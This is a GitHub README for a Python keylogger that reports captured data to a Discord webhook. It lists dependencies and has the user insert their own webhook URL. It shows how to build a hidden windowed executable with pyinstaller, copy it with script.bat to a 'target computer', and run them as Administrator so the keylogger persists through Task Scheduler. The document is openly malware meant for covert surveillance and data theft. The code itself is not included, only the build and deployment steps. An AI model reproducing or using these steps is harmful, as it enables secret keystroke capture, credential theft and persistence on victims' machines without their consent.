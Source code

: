 # Keylogger
Keylogger with Discord Webhooks reports

## Requirements
```py
pyinstaller
clipboard
pyperclip
requests
pynput
argparse
```

## Installation
Install requirements with
```batch
pip install -r requirements.txt
```
Makes changes to line 23 with your discord webhook
```python
webhook = "https://discord.com/api/webhooks/..."
```
Make the .exe file
```batch
cd into/current/folder/with/.py
pyinstaller -F -w "main.py"
```
File will be present in dist
```batch
  ..
  |__ build\
  |__ dist\
  |      |__ 'main.exe'    <------
  |__ main.py
  |__ main.spec
```
The .exe file is ready and can be exercuted in any target computer
## Adding to Task Scheduler
Move the files 'main.exe' and 'script.bat' to target computer
```batch
..
|__ main.exe
|__ script.bat
```
Open command line CMD as **Administrator** and cd into both files directory and run the script
```batch
C:\WINDOWS\system32> cd into/directory/with/both_files/
C:\Users\HP\Desktop> script.bat
```
